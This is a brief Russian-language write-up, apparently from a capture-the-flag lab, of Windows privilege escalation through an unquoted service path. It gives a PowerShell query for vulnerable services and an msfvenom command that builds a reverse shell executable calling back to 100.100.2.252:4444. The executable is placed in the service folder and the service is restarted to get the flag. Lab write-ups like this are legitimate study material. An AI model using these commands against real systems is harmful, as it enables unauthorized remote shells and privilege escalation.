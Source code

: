 Подключаемся к машине и ищем службы у который путь к исполняемому файлу содержит пробелы

```
Get-WmiObject -Class Win32_Service | Where-Object { $_.PathName -match " " -and $_.PathName -notmatch '"' } | Select-Object Name, PathName, StartName

.....
.....

MyLegacyService                  C:\Program Files\TestService\Legacy Software Application For User.exe 

.....
.....
```

Создаем файл для обратного шелла ``msfvenom -p windows/shell_reverse_tcp LHOST=100.100.2.252 LPORT=4444 -f exe > 'Legacy.exe'``
Передаем его на машину и помещаем в папку C:\Program Files\TestService. Из-за отсутствия кавычек в наименование исполняемого файла будет запущен первый найденный файл (legacy.exe /Legacy Software.exe / Legacy Software Application.exe .....)
Запускаем слушателя и перезапускаем службу MyLegacyService => получаем флаг
